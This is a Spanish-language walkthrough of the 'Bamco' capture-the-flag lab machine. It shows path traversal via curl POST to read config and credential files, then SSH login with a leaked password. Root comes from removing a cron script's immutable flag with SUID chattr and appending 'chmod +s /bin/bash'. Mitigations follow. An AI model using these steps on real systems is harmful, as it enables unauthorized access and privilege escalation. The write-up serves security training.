## Información General

|**Campo**|**Detalle**|
|---|---|
|**Nombre de la máquina**|Bamco|
|**Plataforma**|TheHackersLabs|
|**Dificultad**|Fácil|
|**Sistema Operativo**|Linux (Debian)|
|**Servicios expuestos**|SSH (22), HTTP (80)|

## Resumen del Ataque

La máquina aloja la web corporativa de una entidad financiera ("Banco de España"). Al inspeccionar el código fuente del endpoint `index.html` y los recursos web, se descubre un formulario en `descargar.php` que realiza peticiones por POST. Mediante Path Traversal en el parámetro `archivo`, se logra leer el código fuente de `config.php`, revelando un archivo de base de datos en formato JSON (`dbsuperscretinfact.json`). De este archivo se extraen credenciales en texto plano para varios usuarios, entre ellos `wvverez`. Con estas credenciales se obtiene acceso mediante SSH y se captura la flag de usuario (`user.txt`). En la fase de post-explotación, se enumera el binario SUID `/usr/bin/lsattr` y se detecta un script de respaldo `/usr/local/bin/backup.sh` con el atributo inmutable (`i`). Tras retirar el atributo con `chattr -i` y modificar el script (el cual contaba con permisos de escritura para todos, `-rwxrwxrwx`), se espera a su ejecución por parte de una tarea de cron para asignar el bit SUID a `/bin/bash` y escalar privilegios a `root`.

## Técnicas Usadas

- Reconocimiento de puertos y servicios con Nmap

- Fuzzing de contenido web con feroxbuster

- Explotación de Local File Inclusion (LFI) / Arbitrary File Read vía POST (`descargar.php`)
 
- Extracción de credenciales expuestas en un archivo de configuración de base de datos (`dbsuperscretinfact.json`)

- Acceso inicial por SSH con credenciales obtenidas

- Enumeración de atributos extendidos de archivos con `lsattr`

- Modificación de atributos de archivos mediante `chattr`

- Escalada de privilegios abusando de un script de cron con permisos world-writable

## Desarrollo

### 1. Escaneo de puertos completo

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.160
```



### 2. Escaneo de versiones y servicios

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.160
```



### 3. Enumeración del servicio Web

Al acceder a `http://192.168.241.160/`, se observa un portal web corporativo del Banco de España con un panel de autenticación en JavaScript y un formulario para descargar un informe en PDF.


Codigo fuente


### 4. Fuzzing de contenido web

```
feroxbuster --url http://192.168.241.160/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js
```



### 5. Explotación de LFI / Lectura Arbitraria de Archivos

Al intentar acceder por `GET` a `descargar.php`, el servidor responde con un error 405 indicando que solo acepta peticiones `POST`.



Se realiza una petición enviando el parámetro `archivo` con un path traversal hacia `config.php`:

```
curl -s -X POST http://192.168.241.160/descargar.php -d "archivo=../config.php"
```



### 6. Obtención de credenciales de la Base de Datos

En la lectura de `config.php` se revela el nombre de la base de datos basada en JSON: `dbsuperscretinfact.json`. Se procede a leer dicho archivo mediante el mismo vector:

```
curl -s -X POST http://192.168.241.160/descargar.php -d "archivo=../dbsuperscretinfact.json"
```

**Fragmento de la salida JSON:**



Se identifican las credenciales para el usuario SSH: `wvverez` : `dasjbdaDASJDASDA11E1DAJDQA`.

### 7. Acceso por SSH y Flag de Usuario

```
sshpass -p 'dasjbdaDASJDASDA11E1DAJDQA' ssh wvverez@192.168.241.160
```

```
wvverez@TheHackersLabs-Banco:~$ whoami
```



```
wvverez@TheHackersLabs-Banco:~$ cat user.txt 
```



### 8. Enumeración del Sistema para Escalada de Privilegios

Se revisa la capacidad de ejecutar `sudo` o archivos SUID:

```
wvverez@TheHackersLabs-Banco:~$ sudo -l
```



```
wvverez@TheHackersLabs-Banco:~$ find / -perm /4000 -type f 2> /dev/null
```



Destacan los binarios `/usr/bin/lsattr` y `/usr/bin/chattr` con permisos SUID. Se utiliza `lsattr` para buscar archivos en el sistema con atributos especiales instalados (como el atributo inmutable `i`):


```
wvverez@TheHackersLabs-Banco:~$ find / -type f -exec lsattr {} \; | grep '^....i'
```



### 9. Desactivación del atributo inmutable y modificación del script

Se comprueban los permisos del archivo `/usr/local/bin/backup.sh`:

```
wvverez@TheHackersLabs-Banco:~$ ls -la /usr/local/bin/backup.sh
```



El script es ejecutable y escribible por cualquier usuario (`world-writable`), pero tenía activado el atributo de inmutabilidad (`i`). Al disponer de `/usr/bin/chattr` con el bit SUID activado, se puede remover el atributo:

```
wvverez@TheHackersLabs-Banco:~$ chattr -i /usr/local/bin/backup.sh
```

Se revisa el contenido del script:

```
wvverez@TheHackersLabs-Banco:~$ cat /usr/local/bin/backup.sh
```



### 10. Escalada de Privilegios

El script es ejecutado periódicamente por una tarea de cron con privilegios de `root`. Se añade un payload al final del script para otorgar permisos SUID al binario `/bin/bash`:

```
wvverez@TheHackersLabs-Banco:~$ echo "chmod +s /bin/bash" >> /usr/local/bin/backup.sh
```

Tras esperar la ejecución de la tarea programada, se verifica el cambio de permisos en `/bin/bash`:

```
wvverez@TheHackersLabs-Banco:~$ ls -l /bin/bash
```



### 11. Obteniendo Shell de Root y Flag

Se ejecuta `/bin/bash` manteniendo los privilegios del propietario (SUID):


```
wvverez@TheHackersLabs-Banco:~$ bash -p
```

```
bash-5.2# whoami
```



```
bash-5.2# cd /root
bash-5.2# cat root.txt 
```



## Lecciones Aprendidas

- **Concatenación de vulnerabilidades:** Las funciones de lectura de archivos no sanitizadas (LFI/Path Traversal) pueden exponer código fuente sensible y archivos de configuración completos que conducen al compromiso total del acceso inicial.

- **Almacenamiento inseguro de credenciales:** No se deben almacenar credenciales de acceso directo ni llaves en texto plano en archivos legibles desde la raíz del servidor web o dentro del arbol de directorios de producción.

- **Mal uso de binarios SUID:** Asignar el bit SUID a herramientas del sistema de gestión de atributos del sistema de archivos como `chattr` o `lsattr` permite a usuarios no privilegiados eludir restricciones de modificación en archivos críticos del sistema.

- **Permisos Inseguros en scripts de tareas programadas (Cron):** Un script que se ejecute bajo el contexto de `root` o un usuario privilegiado nunca debe tener permisos de escritura para usuarios no autorizados (`world-writable`).

## Medidas de Mitigación

1. **Sanitización de Entradas en `descargar.php`:**
 
  - Evitar el uso de rutas arbitrarias proporcionadas por el usuario.
 
  - Implementar una lista blanca (_whitelist_) estricta con los únicos archivos que pueden descargarse (ej. solo `sobrenosotros.pdf`).
 
  - Utilizar `basename()` para prevenir ataques de Path Traversal (`../`).
 
2. **Seguridad de Datos y Credenciales:**
 
  - Almacenar archivos de configuración y bases de datos fuera de la raíz pública del servidor web (`/var/www/html/`).
  
 - Aplicar el principio de menor privilegio a la estructura de archivos JSON de datos de usuarios.
  
3. **Auditoría de Permisos y SUID:**

 - Retirar el bit SUID de binarios de administración del sistema como `chattr` y `lsattr`.
 
 - Ajustar los permisos del script `/usr/local/bin/backup.sh` para que solo sea editable por el usuario `root` (`chmod 755 /usr/local/bin/backup.sh` o `chmod 700`).
